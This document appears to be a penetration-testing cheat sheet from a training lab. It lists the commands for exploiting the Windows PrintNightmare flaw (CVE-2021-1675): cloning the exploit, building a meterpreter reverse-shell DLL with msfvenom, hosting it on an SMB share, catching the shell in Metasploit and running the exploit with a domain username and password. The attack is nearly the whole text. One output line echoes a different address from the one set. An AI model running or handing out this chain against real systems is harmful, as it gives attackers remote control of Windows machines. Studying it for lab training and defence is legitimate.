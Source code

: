 PrintNightmare Exploit Source (Needs custom impacket version) (attack host)
```shell-session
git clone https://github.com/cube0x0/CVE-2021-1675.git
```

Custom Version of impacket for PrintNightmare (attack host)
```shell-session
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Check for needed protocols for printnightmare (attack host)
```shell-session
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

Creating dll payload(attack host)
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

Create SMB Share (attack host)
```shell-session
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

Establish rev shell with MSF (attack host)
```shell-session
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080 
```

Run exploit (attack host)
```shell-session
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
